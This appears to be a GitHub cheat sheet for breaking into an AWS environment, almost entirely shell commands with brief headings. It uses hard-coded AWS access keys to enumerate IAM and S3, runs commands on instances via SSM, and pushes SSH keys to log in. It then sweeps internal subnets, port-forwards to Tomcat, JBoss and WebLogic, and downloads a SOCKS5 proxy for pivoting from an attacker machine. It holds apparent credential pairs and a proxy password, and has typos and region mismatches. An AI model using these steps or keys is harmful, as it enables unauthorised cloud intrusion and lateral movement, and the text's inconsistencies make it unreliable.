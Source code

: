 # Gaining access to Instance
```
aws configure --profile Test
AWS Access Key ID [None]: AKIAIRYBX5NHQLRB52WQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
```
# Enumerate IAM permissions

```
python3 enumerate-iam.py --access-key AKIAIRYBX5NHQLRB52WQ --secret-key  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
```
# Upon adding the crednetail.next step is to enumerate
```
aws s3 ls --profile Test
aws s3 ls s3://file.resilient --profile Test
```

# If you have enough to utilize AWS Systems Manager Agent 
```
aws ssm describe-instance-information — profile Test

aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile Test
```
# Gaining access to vulerable Instance
```
apt-get isntall install ec2-instance-connect
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id i-0989ec8719613a4d9 --availability-zone us-west-2f --instance-os-user ec2-user --ssh-public-key file://My-Key.pub
ssh -i private.key ubuntu@54.211.12.132
```
# Upon Gaining access to Instance, Next Step is to enumerate the internal hosts and Services.
```
ifconfig or /sbin/ifconfig
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
ping6 -c4 -I eth0 ff02::1 | tee ipv6
```
# Port Forwarding if you have found any susceptible Services like Tomcat.Jboss and Weblogic
```
ssh -i private.key ubuntu@54.211.12.132 -L 8080:127.0.0.1:8080 -N -f

Or Socks proxy solutions
wget https://raw.githubusercontent.com/mfontanini/Programs-Scripts/master/socks5/socks5.cpp

The following variable should be changed
define SERVER_PORT 7777
#define USERNAME "NLK"
#define PASSWORD "123456@*&<>"

On your Attacker Machine,proxychains setting must be amend like information below

socks5 54.211.12.132 7777 NLK 123456@*&<>
proxychains firefox 127.0.0.1:8080
```
